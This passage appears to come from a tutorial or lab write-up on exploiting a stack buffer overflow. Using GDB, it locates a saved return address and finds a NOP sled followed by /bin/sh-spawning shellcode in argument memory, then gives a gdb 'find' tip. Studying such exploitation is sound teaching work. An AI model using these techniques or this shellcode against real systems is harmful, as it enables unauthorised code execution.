 ```console
   0x0040122a <+81>:    call   0x401030 <printf@plt>
   ...
   0x00401243 <+106>:   call   0x401070 <strncpy@plt>
   ...
   0x00401261 <+136>:   leave  
   0x00401262 <+137>:   ret  
End of assembler dump.
$ (gdb) b *0x401215
Breakpoint 2 at 0x401215
$ (gdb) c
Continuing.
p=bffff24e       -- before 1st strcpy

Breakpoint 2, 0x00401215 in f ()
$ (gdb) x/24xw 0xbffff24e
0xbffff24e:     0x40404040      0x40404040      0x40404040      0x40404040
0xbffff25e:     0x40404040      0x40404040      0x40404040      0xf27c4040
0xbffff26e:     0x8300bfff      0x4000b7fb      0xf2980040      0xf530bfff
0xbffff27e:     0x0000bfff      0x00000000      0x00000000      0x12770000
0xbffff28e:     0xf2b00040      0x0000bfff      0x00000000      0xf7e10000
0xbffff29e:     0x8000b7df      0x8000b7fb      0x0000b7fb      0xf7e10000
$ (gdb) x/xw 0xbffff27c
0xbffff27c:     0x0040128a
```
We got our address, `0xbffff27c`.

**3. Finding arguments address** To find the arguments address, you can either print some memory blocks randomly and hope to recognize your code...  or you recompile the executable with debugging informations and you directly check the value of `argv[3]`.  For me it was in the neighbourhood of `0xbffff500`.
```console
$ (gdb) x/80xw 0xbffff51b
0xbffff51b:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff52b:     0x90909090      0xb0c03190      0x31db3146      0xeb80cdc9
0xbffff53b:     0xc0315b16      0x89074388      0x4389085b      0x8d0bb00c
0xbffff54b:     0x538d084b      0xe880cd0c      0xffffffe5      0x6e69622f
0xbffff55b:     0x4e68732f      0x41414141      0x42424242      0x45485300
0xbffff56b:     0x2f3d4c4c      0x2f6e6962      0x68736162      0x53455300
0xbffff57b:     0x4e4f4953      0x4e414d5f      0x52454741      0x636f6c3d
0xbffff58b:     0x6b2f6c61      0x3a696c61      0x6d742f40      0x492e2f70
0xbffff59b:     0x752d4543      0x2f78696e      0x2c323537      0x78696e75
0xbffff5ab:     0x6c616b2f      0x742f3a69      0x2e2f706d      0x2d454349
0xbffff5bb:     0x78696e75      0x3235372f      0x4e495700      0x49574f44
0xbffff5cb:     0x00303d44      0x415f5451      0x53454343      0x49424953
0xbffff5db:     0x5954494c      0x5800313d      0x435f4744      0x49464e4f
0xbffff5eb:     0x49445f47      0x2f3d5352      0x2f637465      0x00676478
0xbffff5fb:     0x5f474458      0x53534553      0x5f4e4f49      0x48544150
0xbffff60b:     0x726f2f3d      0x72662f67      0x65646565      0x6f746b73
0xbffff61b:     0x69442f70      0x616c7073      0x6e614d79      0x72656761
0xbffff62b:     0x7365532f      0x6e6f6973      0x44580030      0x454d5f47
0xbffff63b:     0x505f554e      0x49464552      0x66783d58      0x002d6563
0xbffff64b:     0x474e414c      0x45474155      0x5353003d      0x55415f48
```
:pushpin: **Tips** (Credit [@TGLuis](https://github.com/TGLuis)) To find the exact address in memory more easily, you can use the command find in gdb:
```console
$ (gdb) find $ebp,0xbfffffff,0x90909090
0xbffff51b
0xbffff51c
...
18 patterns found.
```
